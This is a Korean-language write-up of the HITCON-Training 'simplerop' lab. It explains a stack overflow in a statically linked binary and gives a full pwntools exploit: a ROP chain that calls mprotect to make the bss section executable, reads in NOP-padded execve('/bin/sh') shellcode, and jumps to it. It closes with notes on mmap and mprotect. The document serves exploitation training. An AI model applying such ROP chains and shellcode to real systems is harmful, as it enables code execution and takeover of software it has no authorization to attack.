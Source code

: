 # 문제
***

해당 바이너리는 다음과 같이 구성되어 있다.
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]

  puts("ROP is easy is'nt it ?");
  printf("Your input :");
  fflush(stdout);
  return read(0, &v4, 100);
}
```

근데 어셈블리어를 보면 메인 함수의 prologue에 ```and esp, 0xfffffff0 ``` 명령어가 있는 것을 볼 수 있다. 따라서 실제 v4의 위치는 ebp-0x14가 아니고 직접 확인해야 한다.

또한 해당 바이너리는 statically linked가 되어 있다. (system 함수와 execve 함수 등이 없기 때문에 쉘 코드 삽입을 통해서 exploit을 해야 한다.)  

 ## exploit 방법
NX  mprotect 함수를 통해 bss 영역에 rwx 권한을 부여하고 해당 영역에 shellcode를 삽입한다. 그리고 shellcode로 jmp하면 exploit을 할 수 있다. 
(bss 영역의 앞 쪽에 stdin 이나 stdout 등으로 쓰이는 변수가 저장되어 있기 때문에 bss + X 에 shellcode를 삽입하는게 좋음)
 
 
# 풀이

```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab5/simplerop"
nop="\x90"*50
shell="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"

p=process(file_path)
p.recvuntil("input :")

mprotect=0x806d870
read=0x806cd50
pppr=0x080b4f39

bss_sec=0x080eb000


pay="A"*32
pay+=p32(mprotect)
pay+=p32(pppr)
pay+=p32(bss_sec)
pay+=p32(0x1000)
pay+=p32(7)
pay+=p32(read)
pay+=p32(bss_sec)
pay+=p32(0)
pay+=p32(bss_sec)
pay+=p32(0x100)


p.send(pay)
time.sleep(0.1)
p.send(nop+shell)
p.interactive()

```

# 알게 된 것
***

1. mmap 함수
void * mmap(void *start, size_t length, int prot, int
        flags, int fd, off_t offset);

mmap 함수는 파일을 메모리에 대응시키는 함수이다. 즉, 메모리를 할당하고 fd에 대응되는 파일을 해당 메모리와 연결시키는 역할을 한다. 만약 fd 값이 -1이면 순수하게 메모리를 할당한다. 

여기서 start에 들어가는 주소는 page size의 배수여야 한다. 또한 이 주소는 할당되지 않은 메모리여야 한다. 


2. mprotect 함수 
 int mprotect(void *addr, size_t len, int prot);

mprotect의 addr도 mmap 함수와 마찬가지로 page size의 배수여야 한다. 그리고 이 주소는 이미 할당된 메모리의 주소여야 한다. 

3. bss 영역의 주소는 readelf -S [binary] 를 통해 알 수 있다.


